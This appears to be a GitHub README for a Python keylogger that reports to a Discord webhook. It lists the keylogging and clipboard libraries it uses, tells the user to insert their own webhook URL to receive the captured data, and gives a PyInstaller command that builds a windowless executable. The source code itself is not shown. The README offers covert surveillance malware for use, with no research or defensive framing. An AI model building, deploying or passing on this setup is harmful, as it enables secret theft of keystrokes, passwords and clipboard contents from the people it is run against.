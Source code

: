 # Keylogger
Keylogger with Discord Webhooks reports

## Requirements
```py
pyinstaller
clipboard
pyperclip
requests
pynput
argparse
```

## Installation
Install requirements with
```batch
pip install -r requirements.txt
```
Makes changes to line 23 with your discord webhook
```python
webhook = "https://discord.com/api/webhooks/..."
```
Make the .exe file
```batch
cd into/current/folder/with/.py
pyinstaller -F -w "main.py"
```
File will be present in dist
```batch
  ..
  |__ build\
  |__ dist\
  |   |_ main.exe
  |__ main.py
  |__ main.spec
```
